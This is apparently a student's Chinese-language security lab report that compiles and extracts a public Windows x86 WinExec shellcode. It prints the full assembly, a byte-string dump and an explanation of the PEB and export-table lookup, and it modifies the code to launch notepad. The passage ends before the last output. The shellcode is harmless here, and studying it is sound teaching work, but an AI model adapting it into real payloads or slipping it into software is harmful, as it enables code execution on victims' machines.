







## 逆向工程与软件安全

### （1）把下面这个链接中shellcode能够成功运行

+ [链接地址](https://www.exploit-db.com/shellcodes/48116)

+ 运行结果：

  

  

### （2）能从汇编源码编译通过并成功dump。

+ 题意：将汇编源码编译得到对象文件，dump生成二进制可执行文件。

+ `nasm -f win32 win32-WinExec_Calc-Exit.asm -o win32-WinExec_Calc-Exit.o`

  >nasm: linux系统默认的汇编工具；
  >
  >-f win32 :指定format
  >
  >win32-WinExec_Calc-Exit.asm：汇编文件（assambly）
  >
  >-o win32-WinExec_Calc-Exit.o：也就是obj文件（对象文件）
  >
  >注：编译是 高级语言（.asm）变成机器指令(.o)。最后的链接是obj和lib文件生成exe的过程，主要完成地址的排列。

+ `for i in $(objdump -D win32-WinExec_Calc-Exit.o | grep "^ " | cut -f2); do echo -n '\x'$i; done; echo`

  >objdump -D win32-WinExec_Calc-Exit.o :  
  >
  >grep "^ "  : 查找以空格开始的行
  >
  >cut -f2 : 剪切并得到第二部分

+ main.asm:

  ```asm
  	; # Title:  Windows\x86 - Null - Free WinExec Calc.exe Shellcode(195 bytes)
  		; # Shellcode Author : Bobby Cooke
  		; # Date : 2020 - 02 - 21
  		; # Technique : PEB & Export Directory Table
  		; # Tested On : Windows 10 Pro(x86) 10.0.18363 Build 18363
  
  		_start :
  		; Create a new stack frame
  		mov ebp, esp; Set base stack pointer for new stack - frame
  		sub esp, 0x20; Decrement the stack by 32 bytes
  
  		; Find kernel32.dll base address
  		xor ebx, ebx; EBX = 0x00000000
  		mov ebx, [fs:ebx + 0x30]; EBX = Address_of_PEB
  		mov ebx, [ebx + 0xC]; EBX = Address_of_LDR
  		mov ebx, [ebx + 0x1C]; EBX = 1st entry in InitOrderModuleList / ntdll.dll
  		mov ebx, [ebx]; EBX = 2nd entry in InitOrderModuleList / kernelbase.dll
  		mov ebx, [ebx]; EBX = 3rd entry in InitOrderModuleList / kernel32.dll
  		mov eax, [ebx + 0x8]; EAX = &kernel32.dll / Address of kernel32.dll
  		mov[ebp - 0x4], eax; [EBP - 0x04] = &kernel32.dll
  
  		; Find the address of the WinExec Symbol within kernel32.dll
  		; +The hex values will change with different versions of Windows
  
  		; Find the address of the Export Table within kernel32.dll
  		mov ebx, [eax + 0x3C]; EBX = Offset NewEXEHeader = 0xF8
  		add ebx, eax; EBX = &NewEXEHeader = 0xF8 + &kernel32.dll
  		mov ebx, [ebx + 0x78]; EBX = RVA ExportTable = 0x777B0 = [&NewExeHeader + 0x78]
  		add ebx, eax; EBX = &ExportTable = RVA ExportTable + &kernel32.dll
  
  		; Find the address of the Name Pointer Table within kernel32.dll
  		; +Contains pointers to strings of function names - 4 - byte / dword entries
  		mov edi, [ebx + 0x20]; EDI = RVA NamePointerTable = 0x790E0
  		add edi, eax; EDI = &NamePointerTable = 0x790E0 + &kernel32.dll
  		mov[ebp - 0x8], edi; save& NamePointerTable to stack frame
  
  		; Find the address of the Ordinal Table
  		;   -2 - byte / word entries
  		mov ecx, [ebx + 0x24]; ECX = RVA OrdinalTable = 0x7A9E8
  		add ecx, eax; ECX = &OrdinalTable = 0x7A9E8 + &kernel32.dll
  		mov[ebp - 0xC], ecx; save& OrdinalTable to stack - frame
  
  		; Find the address of the Address Table
  		mov edx, [ebx + 0x1C]; EDX = RVA AddressTable = 0x777CC
  		add edx, eax; EDX = &AddressTable = 0x777CC + &kernel32.dll
  		mov[ebp - 0x10], edx; save& AddressTable to stack - frame
  
  		; Find Number of Functions within the Export Table of kernel32.dll
  		mov edx, [ebx + 0x14]; EDX = Number of Functions = 0x642
  		mov[ebp - 0x14], edx; save value of Number of Functions to stack - frame
  
  		jmp short functions
  
  		findFunctionAddr :
  		; Initialize the Counter to prevent infinite loop
  			xor eax, eax; EAX = Counter = 0
  			mov edx, [ebp - 0x14]; get value of Number of Functions from stack - frame
  			; Loop through the NamePointerTableand compare our Strings to the Name Strings of kernel32.dll
  			searchLoop :
  		mov edi, [ebp - 0x8]; EDI = &NamePointerTable
  			mov esi, [ebp + 0x18]; ESI = Address of String for the Symbol we are searching for
  			xor ecx, ecx; ECX = 0x00000000
  			cld; clear direction flag - Process strings from left to right
  			mov edi, [edi + eax * 4]; EDI = RVA NameString = [&NamePointerTable + (Counter * 4)]
  			add edi, [ebp - 0x4]; EDI = &NameString = RVA NameString + &kernel32.dll
  			add cx, 0x8; ECX = len("WinExec,0x00") = 8 = 7 char + 1 Null
  			repe cmpsb; compare first 8 bytes of[&NameString] to "WinExec,0x00"
  			jz found; If string at[&NameString] == "WinExec,0x00", then end loop
  			inc eax; else Counter ++
  			cmp eax, edx; Does EAX == Number of Functions ?
  			jb searchLoop;   If EAX != Number of Functions, then restart the loop
  
  			found :
  		; Find the address of WinExec by using the last value of the Counter
  			mov ecx, [ebp - 0xC]; ECX = &OrdinalTable
  			mov edx, [ebp - 0x10]; EDX = &AddressTable
  			mov ax, [ecx + eax * 2];  AX = ordinalNumber = [&OrdinalTable + (Counter * 2)]
  			mov eax, [edx + eax * 4]; EAX = RVA WinExec = [&AddressTable + ordinalNumber]
  			add eax, [ebp - 0x4]; EAX = &WinExec = RVA WinExec + &kernel32.dll
  			ret
  
  			functions :
  		; Create string 'WinExec\x00' on the stack and save its address to the stack - frame
  			mov edx, 0x63657878; "cexx"
  			shr edx, 8; Shifts edx register to the right 8 bits
  			push edx; "\x00,cex"
  			push 0x456E6957; EniW: 456E6957
  			mov[ebp + 0x18], esp; save address of string 'WinExec\x00' to the stack - frame
  			call findFunctionAddr; After Return EAX will = &WinExec
  
  			; Call WinExec(CmdLine, ShowState);
  		;   CmdLine = "calc.exe"
  			;   ShowState = 0x00000001 = SW_SHOWNORMAL - displays a window
  			xor ecx, ecx; clear eax register
  			push ecx; string terminator 0x00 for "calc.exe" string
  			push 0x6578652e; exe. : 6578652e
  			push 0x636c6163; clac: 636c6163
  			mov ebx, esp; save pointer to "calc.exe" string in eax
  			inc ecx; uCmdShow SW_SHOWNORMAL = 0x00000001
  			push ecx; uCmdShow - push 0x1 to stack # 2nd argument
  			push ebx; lpcmdLine - push string address stack # 1st argument
  			call eax; Call the WinExec Function
  
  			; Create string 'ExitProcess\x00' on the stack and save its address to the stack - frame
  			xor ecx, ecx; clear eax register
  			mov ecx, 0x73736501; 73736501 = "sse", 0x01 // "ExitProcess",0x0000 string
  			shr ecx, 8; ecx = "ess", 0x00 // shr shifts the register right 8 bits
  			push ecx;  sse: 00737365
  			push 0x636F7250; corP: 636F7250
  			push 0x74697845; tixE: 74697845
  			mov[ebp + 0x18], esp; save address of string 'ExitProcess\x00' to stack - frame
  			call findFunctionAddr; After Return EAX will = &ExitProcess
  
  			; Call ExitProcess(ExitCode)
  			xor edx, edx
  			push edx; ExitCode = 0
  			call eax; ExitProcess(ExitCode)
  
  			; nasm - f win32 win32 - WinExec_Calc - Exit.asm - o win32 - WinExec_Calc - Exit.o
  			; for i in $(objdump - D win32 - WinExec_Calc - Exit.o | grep "^ " | cut - f2); do echo - n '\x'$i; done; echo
  ```

+ ```bash
  kate@10:~/Desktop$ nasm -f win32 main.asm -o main.o
  kate@10:~/Desktop$ dir
  main.o   main.asm
  kate@10:~/Desktop$ for i in $(objdump -D main.o | grep "^ " | cut -f2); do echo -n '\x'$i; done; echo
  \x89\xe5\x83\xec\x20\x31\xdb\x64\x8b\x5b\x30\x8b\x5b\x0c\x8b\x5b\x1c\x8b\x1b\x8b\x1b\x8b\x43\x08\x89\x45\xfc\x8b\x58\x3c\x01\xc3\x8b\x5b\x78\x01\xc3\x8b\x7b\x20\x01\xc7\x89\x7d\xf8\x8b\x4b\x24\x01\xc1\x89\x4d\xf4\x8b\x53\x1c\x01\xc2\x89\x55\xf0\x8b\x53\x14\x89\x55\xec\xeb\x32\x31\xc0\x8b\x55\xec\x8b\x7d\xf8\x8b\x75\x18\x31\xc9\xfc\x8b\x3c\x87\x03\x7d\xfc\x66\x83\xc1\x08\xf3\xa6\x74\x05\x40\x39\xd0\x72\xe4\x8b\x4d\xf4\x8b\x55\xf0\x66\x8b\x04\x41\x8b\x04\x82\x03\x45\xfc\xc3\xba\x78\x78\x65\x63\xc1\xea\x08\x52\x68\x57\x69\x6e\x45\x89\x65\x18\xe8\xb8\xff\xff\xff\x31\xc9\x51\x68\x2e\x65\x78\x65\x68\x63\x61\x6c\x63\x89\xe3\x41\x51\x53\xff\xd0\x31\xc9\xb9\x01\x65\x73\x73\xc1\xe9\x08\x51\x68\x50\x72\x6f\x63\x68\x45\x78\x69\x74\x89\x65\x18\xe8\x87\xff\xff\xff\x31\xd2\x52\xff\xd0
  kate@10:~/Desktop$ 
  ```


### （3）自行查阅资料，搜索Windows PEB结构体，PE文件导入表导出表相关数据结构的文档，解读shellcode原理。

+ process environment block：进程结构体。https://docs.microsoft.com/en-us/windows/win32/api/winternl/ns-winternl-peb

  ```
  typedef struct _PEB {
    BYTE                          Reserved1[2];
    BYTE                          BeingDebugged;
    BYTE                          Reserved2[1];
    PVOID                         Reserved3[2];
    PPEB_LDR_DATA                 Ldr;
    PRTL_USER_PROCESS_PARAMETERS  ProcessParameters;
    PVOID                         Reserved4[3];
    PVOID                         AtlThunkSListPtr;
    PVOID                         Reserved5;
    ULONG                         Reserved6;
    PVOID                         Reserved7;
    ULONG                         Reserved8;
    ULONG                         AtlThunkSListPtr32;
    PVOID                         Reserved9[45];
    BYTE                          Reserved10[96];
    PPS_POST_PROCESS_INIT_ROUTINE PostProcessInitRoutine;
    BYTE                          Reserved11[128];
    PVOID                         Reserved12[1];
    ULONG                         SessionId;
  } PEB, *PPEB;
  ```

+ PE文件结构

  

  导出表：导出表就是当前的PE文件提供了那些函数，给别人用。

  导入表：导入表中保存的是该dll文件中使用到的，但是不在该dll文件中的其他函数的函数名和其驻留的DLL 名等信息。

  每个数据目录都提供Windows使用的表或字符串的地址和大小。这些数据目录条目均已加载到内存中，以便系统可以在运行时使用它们。数据目录是一个8字节的字段，具有以下声明：

  ```c++
  typedef struct _IMAGE_DATA_DIRECTORY {
      DWORD   VirtualAddress;
      DWORD   Size;
  } IMAGE_DATA_DIRECTORY, *PIMAGE_DATA_DIRECTORY;
  ```

  VirtualAddress是一个RVA的表，最前面的就是导出表和导入表。记录了导出表、导入表的地址和大小。

  |                   |      |                         |                                                              |
  | :---------------- | :--- | :---------------------- | :----------------------------------------------------------- |
  | Offset (PE/PE32+) | Size | Field                   | Description                                                  |
  | 96/112            | 8    | Export Table            | The export table address and size. For more information see [.edata Section (Image Only)](https://docs.microsoft.com/en-us/windows/win32/debug/pe-format#the-edata-section-image-only). |
  | 104/120           | 8    | Import Table            | The import table address and size. For more information, see [The .idata Section](https://docs.microsoft.com/en-us/windows/win32/debug/pe-format#the-idata-section). |
  | 112/128           | 8    | Resource Table          | The resource table address and size. For more information, see [The .rsrc Section](https://docs.microsoft.com/en-us/windows/win32/debug/pe-format#the-rsrc-section). |
  | 120/136           | 8    | Exception Table         | The exception table address and size. For more information, see [The .pdata Section](https://docs.microsoft.com/en-us/windows/win32/debug/pe-format#the-pdata-section). |
  | 128/144           | 8    | Certificate Table       | The attribute certificate table address and size. For more information, see [The Attribute Certificate Table (Image Only)](https://docs.microsoft.com/en-us/windows/win32/debug/pe-format#the-attribute-certificate-table-image-only). |
  | 136/152           | 8    | Base Relocation Table   | The base relocation table address and size. For more information, see [The .reloc Section (Image Only)](https://docs.microsoft.com/en-us/windows/win32/debug/pe-format#the-reloc-section-image-only). |
  | 144/160           | 8    | Debug                   | The debug data starting address and size. For more information, see [The .debug Section](https://docs.microsoft.com/en-us/windows/win32/debug/pe-format#the-debug-section). |
  | 152/168           | 8    | Architecture            | Reserved, must be 0                                          |
  | 160/176           | 8    | Global Ptr              | The RVA of the value to be stored in the global pointer register. The size member of this structure must be set to zero. |
  | 168/184           | 8    | TLS Table               | The thread local storage (TLS) table address and size. For more information, [The .tls Section](https://docs.microsoft.com/en-us/windows/win32/debug/pe-format#the-tls-section). |
  | 176/192           | 8    | Load Config Table       | The load configuration table address and size. For more information, [The Load Configuration Structure (Image Only)](https://docs.microsoft.com/en-us/windows/win32/debug/pe-format#the-load-configuration-structure-image-only). |
  | 184/200           | 8    | Bound Import            | The bound import table address and size.                     |
  | 192/208           | 8    | IAT                     | The import address table address and size. For more information, see [Import Address Table](https://docs.microsoft.com/en-us/windows/win32/debug/pe-format#import-address-table). |
  | 200/216           | 8    | Delay Import Descriptor | The delay import descriptor address and size. For more information, see [Delay-Load Import Tables (Image Only)](https://docs.microsoft.com/en-us/windows/win32/debug/pe-format#delay-load-import-tables-image-only). |
  | 208/224           | 8    | CLR Runtime Header      | The CLR runtime header address and size. For more information, see [The .cormeta Section (Object Only)](https://docs.microsoft.com/en-us/windows/win32/debug/pe-format#the-cormeta-section-object-only). |
  | 216/232           | 8    | Reserved, must be zero  |                                                              |

+ shellcode原理

  我们的攻击代码shellcode没有经过链接，是一段二进制的数据流或者网络数据流，因此不知道要调用函数的API在哪儿。但是不应该自己写一个winexecute（双击或者命令行攻击），而是应该去找API的地址。有两种方式；用GetProcAddress函数获取函数地址，或者用CreateProcess(或WinExec())遍历导出表获得函数地址。第二种方式需要手动地加载链接库，而第一种方式则不需要，详细使用差别见题5。

### 4）修改shellcode功能为运行记事本程序notepad. exe，

```
notepad.exe \x00
四字节四字节的写入;
将下述：
			push ecx; string terminator 0x00 for "calc.exe" string
			push 0x6578652e; exe. : 6578652e
			push 0x636c6163; clac: 636c6163
改成：
			;notepad.exe\x00
			push 0x00657865   ; \x00exe : 00657865
			push 0x2e646170	  ; .dap	: 2e646170
			push 0x65746F6E	  ; eton	: 65746F6E
```

```asm
; # Title:  Windows\x86 - Null - Free WinExec Calc.exe Shellcode(195 bytes)
		; # Shellcode Author : Bobby Cooke
		; # Date : 2020 - 02 - 21
		; # Technique : PEB & Export Directory Table
		; # Tested On : Windows 10 Pro(x86) 10.0.18363 Build 18363

		_start :
		; Create a new stack frame
		mov ebp, esp; Set base stack pointer for new stack - frame
		sub esp, 0x20; Decrement the stack by 32 bytes

		; Find kernel32.dll base address
		xor ebx, ebx; EBX = 0x00000000
		mov ebx, [fs:ebx + 0x30]; EBX = Address_of_PEB
		mov ebx, [ebx + 0xC]; EBX = Address_of_LDR
		mov ebx, [ebx + 0x1C]; EBX = 1st entry in InitOrderModuleList / ntdll.dll
		mov ebx, [ebx]; EBX = 2nd entry in InitOrderModuleList / kernelbase.dll
		mov ebx, [ebx]; EBX = 3rd entry in InitOrderModuleList / kernel32.dll
		mov eax, [ebx + 0x8]; EAX = &kernel32.dll / Address of kernel32.dll
		mov[ebp - 0x4], eax; [EBP - 0x04] = &kernel32.dll

		; Find the address of the WinExec Symbol within kernel32.dll
		; +The hex values will change with different versions of Windows

		; Find the address of the Export Table within kernel32.dll
		mov ebx, [eax + 0x3C]; EBX = Offset NewEXEHeader = 0xF8
		add ebx, eax; EBX = &NewEXEHeader = 0xF8 + &kernel32.dll
		mov ebx, [ebx + 0x78]; EBX = RVA ExportTable = 0x777B0 = [&NewExeHeader + 0x78]
		add ebx, eax; EBX = &ExportTable = RVA ExportTable + &kernel32.dll

		; Find the address of the Name Pointer Table within kernel32.dll
		; +Contains pointers to strings of function names - 4 - byte / dword entries
		mov edi, [ebx + 0x20]; EDI = RVA NamePointerTable = 0x790E0
		add edi, eax; EDI = &NamePointerTable = 0x790E0 + &kernel32.dll
		mov[ebp - 0x8], edi; save& NamePointerTable to stack frame

		; Find the address of the Ordinal Table
		;   -2 - byte / word entries
		mov ecx, [ebx + 0x24]; ECX = RVA OrdinalTable = 0x7A9E8
		add ecx, eax; ECX = &OrdinalTable = 0x7A9E8 + &kernel32.dll
		mov[ebp - 0xC], ecx; save& OrdinalTable to stack - frame

		; Find the address of the Address Table
		mov edx, [ebx + 0x1C]; EDX = RVA AddressTable = 0x777CC
		add edx, eax; EDX = &AddressTable = 0x777CC + &kernel32.dll
		mov[ebp - 0x10], edx; save& AddressTable to stack - frame

		; Find Number of Functions within the Export Table of kernel32.dll
		mov edx, [ebx + 0x14]; EDX = Number of Functions = 0x642
		mov[ebp - 0x14], edx; save value of Number of Functions to stack - frame

		jmp short functions

		findFunctionAddr :
		; Initialize the Counter to prevent infinite loop
			xor eax, eax; EAX = Counter = 0
			mov edx, [ebp - 0x14]; get value of Number of Functions from stack - frame
			; Loop through the NamePointerTableand compare our Strings to the Name Strings of kernel32.dll
			searchLoop :
		mov edi, [ebp - 0x8]; EDI = &NamePointerTable
			mov esi, [ebp + 0x18]; ESI = Address of String for the Symbol we are searching for
			xor ecx, ecx; ECX = 0x00000000
			cld; clear direction flag - Process strings from left to right
			mov edi, [edi + eax * 4]; EDI = RVA NameString = [&NamePointerTable + (Counter * 4)]
			add edi, [ebp - 0x4]; EDI = &NameString = RVA NameString + &kernel32.dll
			add cx, 0x8; ECX = len("WinExec,0x00") = 8 = 7 char + 1 Null
			repe cmpsb; compare first 8 bytes of[&NameString] to "WinExec,0x00"
			jz found; If string at[&NameString] == "WinExec,0x00", then end loop
			inc eax; else Counter ++
			cmp eax, edx; Does EAX == Number of Functions ?
			jb searchLoop;   If EAX != Number of Functions, then restart the loop

			found :
		; Find the address of WinExec by using the last value of the Counter
			mov ecx, [ebp - 0xC]; ECX = &OrdinalTable
			mov edx, [ebp - 0x10]; EDX = &AddressTable
			mov ax, [ecx + eax * 2];  AX = ordinalNumber = [&OrdinalTable + (Counter * 2)]
			mov eax, [edx + eax * 4]; EAX = RVA WinExec = [&AddressTable + ordinalNumber]
			add eax, [ebp - 0x4]; EAX = &WinExec = RVA WinExec + &kernel32.dll
			ret

			functions :
		; Create string 'WinExec\x00' on the stack and save its address to the stack - frame
			mov edx, 0x63657878; "cexx"
			shr edx, 8; Shifts edx register to the right 8 bits
			push edx; "\x00,cex"
			push 0x456E6957; EniW: 456E6957
			mov[ebp + 0x18], esp; save address of string 'WinExec\x00' to the stack - frame
			call findFunctionAddr; After Return EAX will = &WinExec

			; Call WinExec(CmdLine, ShowState);
		;   CmdLine = "calc.exe"
			;   ShowState = 0x00000001 = SW_SHOWNORMAL - displays a window
			xor ecx, ecx; clear eax register
			;push ecx; string terminator 0x00 for "calc.exe" string
			;push 0x6578652e; exe. : 6578652e
			;push 0x636c6163; clac: 636c6163
			;notepad.exe\x00
			
			push 0x00657865   ; \x00exe : 00657865
			push 0x2e646170	  ; .dap	: 2e646170
			push 0x65746F6E	  ; eton	: 65746F6E
			mov ebx, esp; save pointer to "calc.exe" string in eax
			inc ecx; uCmdShow SW_SHOWNORMAL = 0x00000001
			push ecx; uCmdShow - push 0x1 to stack # 2nd argument
			push ebx; lpcmdLine - push string address stack # 1st argument
			call eax; Call the WinExec Function

			; Create string 'ExitProcess\x00' on the stack and save its address to the stack - frame
			xor ecx, ecx; clear eax register
			mov ecx, 0x73736501; 73736501 = "sse", 0x01 // "ExitProcess",0x0000 string
			shr ecx, 8; ecx = "ess", 0x00 // shr shifts the register right 8 bits
			push ecx;  sse: 00737365
			push 0x636F7250; corP: 636F7250
			push 0x74697845; tixE: 74697845
			mov[ebp + 0x18], esp; save address of string 'ExitProcess\x00' to stack - frame
			call findFunctionAddr; After Return EAX will = &ExitProcess

			; Call ExitProcess(ExitCode)
			xor edx, edx
			push edx; ExitCode = 0
			call eax; ExitProcess(ExitCode)
```

```asm
在kali中运行命令：
# nasm - f win32 win32 - WinExec_Calc - Exit.asm - o win32 - WinExec_Calc - Exit.o
# for i in $(objdump - D win32 - WinExec_Calc - Exit.o | grep "^ " | cut - f2); do echo - n '\x'$i; done; echo
得到：
